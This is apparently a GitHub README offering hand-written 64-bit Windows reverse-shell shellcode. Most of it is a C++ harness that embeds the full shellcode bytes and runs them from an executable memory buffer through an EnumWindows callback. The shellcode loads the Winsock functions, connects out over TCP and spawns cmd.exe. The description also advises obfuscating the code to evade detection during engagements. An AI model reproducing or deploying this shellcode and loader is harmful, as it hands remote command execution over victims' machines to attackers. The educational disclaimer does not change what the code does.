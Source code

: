 # Windows-TCP-Reverse-Shell-Shellcode
Hand-written Windows TCP Reverse-Shell Shellcode (64-bit). 

## Description
On its own, it's probably heavily signatured. You might want to employ some encoding or obfuscation if you plan on using this on any engagements XD.
Also, there are tons of examples and alternative ways of doing this on the internet, and the ol' Metasploit Framework exists, so you could use that too. 
Otherwise, if you're interested in how this stuff works, this will hopefully prove to be a helpful resource. It does contain some null bytes, but that's an easy fix (in many ways).
Further, some optimizations can be made to decrease the number of bytes, but I'm relatively certain that you won't get windows shellcode to reliably spawn a reverse-shell in less than 500 bytes.

## Disclaimer 
You know the drill; this right here is for educational and/or ethical hacking purposes only. If you hack while wearing a black hat, hold your L with grace.

But, seriously:
*This offensive capability is provided for educational and ethical hacking purposes only. The creator of this tool does not condone or support any illegal or unethical use of this software. Any misuse, including but not limited to unauthorized access to computer systems or networks, is the sole responsibility of the individual using the tool. By downloading or using this software, you agree to use it in compliance with all applicable laws and regulations. The creator disclaims any liability for any damages or legal consequences arising from the use or misuse of this tool.*

## Testing

Here's some code you can use to test the shellcode:
```C++
void main() {
    unsigned char CustomShellcode[] =
        "\x48\x33\xC9\x48\x33\xDB\x4D\x33\xD2\x65\x4C\x8B\x69\x60\x4D\x8B\x6D\x18\x49\x8B\x75\x20\x48\xAD\x48"
        "\x96\x48\xAD\x4D\x33\xED\x4C\x8B\x78\x20\x45\x8B\x77\x3C\x4D\x03\xF7\x48\xFF\xC1\x48\xFF\xC1\x48\xC1"
        "\xE1\x06\x48\xFF\xC1\x48\xFF\xC1\x48\xFF\xC1\x48\xFF\xC1\x48\xFF\xC1\x48\xFF\xC1\x48\xFF\xC1\x48\xFF"
        "\xC1\x41\x8B\x14\x0E\x49\x03\xD7\x8B\x42\x14\x8B\x5A\x20\x49\x03\xDF\x8B\xC8\x48\xB8\x47\x65\x74\x50"
        "\x72\x6F\x63\x41\x67\xE3\x12\x4D\x33\xD2\x44\x8B\x54\x8B\x04\x4D\x03\xD7\xFF\xC9\x49\x39\x02\x75\xEB"
        "\x48\x33\xDB\x8B\x5A\x24\x49\x03\xDF\x48\xFF\xC1\x66\x44\x8B\x2C\x4B\x4D\x33\xDB\x48\x33\xDB\x44\x8B"
        "\x5A\x1C\x4D\x03\xDF\x43\x8B\x5C\xAB\x04\x49\x03\xDF\x48\x33\xC0\x48\xC7\xC0\x61\x72\x79\x41\x50\x48"
        "\xB8\x4C\x6F\x61\x64\x4C\x69\x62\x72\x50\x48\x8B\xD4\x49\x8B\xCF\x48\x83\xEC\x30\xFF\xD3\x48\x83\xC4"
        "\x30\x4C\x8B\xF0\x48\x33\xC0\x48\xC7\xC0\x6C\x6C\x00\x00\x50\x48\xB8\x57\x53\x32\x5F\x33\x32\x2E\x64"
        "\x50\x48\x8B\xCC\x48\x83\xEC\x30\x41\xFF\xD6\x4C\x8B\xF0\x48\x83\xC4\x30\x48\x33\xC0\x48\xC7\xC0\x75"
        "\x70\x00\x00\x50\x48\xB8\x57\x53\x41\x53\x74\x61\x72\x74\x50\x48\x8B\xD4\x49\x8B\xCE\x48\x83\xEC\x30"
        "\xFF\xD3\x48\x83\xC4\x30\x4C\x8B\xD8\x48\x33\xC9\x66\xB9\x98\x01\x48\x2B\xE1\x48\x8B\xD4\x66\xB9\x02"
        "\x02\x48\x83\xEC\x30\x41\xFF\xD3\x48\x83\xC4\x30\x48\x33\xC0\x48\xC7\xC0\x74\x41\x00\x00\x50\x48\xB8"
        "\x57\x53\x41\x53\x6F\x63\x6B\x65\x50\x48\x8B\xD4\x49\x8B\xCE\x48\x83\xEC\x30\xFF\xD3\x48\x83\xC4\x30"
        "\x4C\x8B\xD8\x48\x33\xC9\x48\x83\xEC\x30\x48\x89\x4C\x24\x20\x48\x89\x4C\x24\x28\x4C\x8B\xC1\x48\xFF"
        "\xC1\x48\x8B\xD1\x48\xFF\xC1\x49\x83\xC0\x06\x4D\x33\xC9\x41\xFF\xD3\x4C\x8B\xE8\x48\x83\xC4\x30\x48"
        "\x33\xC0\x48\xC7\xC0\x63\x74\x00\x00\x50\x48\xB8\x57\x53\x41\x43\x6F\x6E\x6E\x65\x50\x48\x8B\xD4\x49"
        "\x8B\xCE\x48\x83\xEC\x30\xFF\xD3\x4C\x8B\xE0\x49\x8B\xCD\x49\xC7\xC0\x7F\x00\x00\x01\x41\x50\x66\x41"
        "\xB8\x7A\x69\x66\x41\x50\x4D\x33\xC0\x49\xFF\xC0\x49\xFF\xC0\x49\x8B\xD0\x66\x52\x49\xC7\xC0\x16\x00"
        "\x00\x00\x4D\x33\xC9\x48\x8B\xD4\x41\x51\x41\x51\x41\x51\x48\x83\xEC\x30\x41\xFF\xD4\x48\x33\xC0\x48"
        "\xB8\x6F\x63\x65\x73\x73\x41\x00\x00\x50\x48\xB8\x43\x72\x65\x61\x74\x65\x50\x72\x50\x48\x8B\xD4\x49"
        "\x8B\xCF\x48\x83\xEC\x30\xFF\xD3\x48\x83\xC4\x30\x4C\x8B\xE0\x48\x33\xC0\x48\xB8\x63\x6D\x64\x2E\x65"
        "\x78\x65\x00\x50\x48\x8B\xCC\x41\x55\x41\x55\x41\x55\x48\x33\xDB\x66\x53\x53\x53\x48\xC7\xC3\x00\x01"
        "\x00\x00\x66\x53\x48\x33\xDB\x66\x53\x66\x53\x53\x53\x53\x53\x53\x53\x48\xC7\xC3\x68\x00\x00\x00\x53"
        "\x48\x8B\xFC\x48\xFF\xC4\x48\xFF\xC4\x48\xFF\xC4\x48\xFF\xC4\x48\x8B\xDC\x48\x83\xEB\x20\x53\x57\x48"
        "\x33\xDB\x53\x53\x53\x48\xFF\xC3\x53\x48\x33\xDB\x53\x53\x53\x53\x4C\x8B\xC3\x4C\x8B\xCB\x48\x8B\xD1"
        "\x48\x8B\xCB\x41\xFF\xD4";

    // In case DEP is enabled on the system, allocate an executable buffer in which
    // to store the payload.
    void* ExecutableBuffer = VirtualAlloc(0, sizeof(CustomShellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (!ExecutableBuffer) return;

    memcpy(ExecutableBuffer, CustomShellcode, sizeof(CustomShellcode));

    // Call a Win32 API function with the payload as a callback.
    EnumWindows((WNDENUMPROC)ExecutableBuffer, NULL);
```
